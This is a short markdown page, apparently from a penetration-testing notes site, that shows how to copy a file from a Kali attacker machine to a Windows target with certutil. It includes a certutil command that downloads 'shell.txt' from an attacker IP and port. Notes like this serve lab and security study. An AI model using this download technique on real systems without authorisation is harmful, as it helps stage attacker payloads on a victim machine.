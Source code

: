 ```yaml
---
title: Certutil
layout: default
nav_order: 2
parent: File Transfers

---
```


# Certutil
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }
1. TOC
{:toc}

---

### Certutil File Transfers

Transferring files from Kali machine to target machine (Windows) via `certutil`

On Windows machine: 

1. Set IP to Kali machine IP
```powershell
$IP="192.168.119.239"
```
2. Set port to port that hosts desired file on Kali machine
```powershell
$port="8000"
```
3. Run `certutil` on windows target to grab desired file
```powershell
certutil -urlcache -split -f http://${IP}:${port}/shell.txt shell.txt
```
4. Confirm that file has been downloaded
```powershell
ls shell.txt
```

